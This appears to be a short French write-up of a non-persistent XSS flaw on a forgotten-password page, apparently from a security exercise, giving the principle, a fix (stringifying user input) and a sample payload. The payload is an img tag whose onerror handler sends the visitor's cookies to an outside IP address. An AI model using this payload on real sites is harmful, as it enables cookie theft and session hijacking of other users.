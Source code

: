Security breach name 	: XSS (Cross-site scripting) non-persistant

Principle 				: Insérer du code html/js/php dans un input pour essayer d'accéder à des données sensibles ou modifier la perception du site aux autres utilisateurs.

Solve 					: Stringifier les valeurs envoyé par le user.

In case 				: Sur la page Mpt de passe oublié nous sommes en mesure d'insérer du code dans l'input caché.
							code 	: <img src="azerty.jpg" onerror="window.location='http://46.101.40.236:3000/get_cookie_xss.php?cookie='+document.cookie;" hidden>
